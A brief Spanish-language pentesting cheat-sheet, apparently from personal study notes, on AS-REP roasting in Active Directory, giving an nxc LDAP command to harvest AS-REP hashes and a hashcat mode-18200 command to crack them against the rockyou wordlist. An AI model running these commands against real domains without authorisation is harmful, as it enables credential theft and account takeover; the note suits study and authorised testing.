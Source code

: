 # ASREProstable 

Tags: #AD #ASREProstable  #Crackmapexec #HashCat #Kali #Parrot 

## Explotar con CrackMapExec

```bash 
❯ nxc ldap IP -u 'clearpass.user' -p 'Password@1' --asreproast output.txt
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force

	# m = Método por fuerza bruta
	# 18200 = Es un ASREProstable
	# hashes.asreproast = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```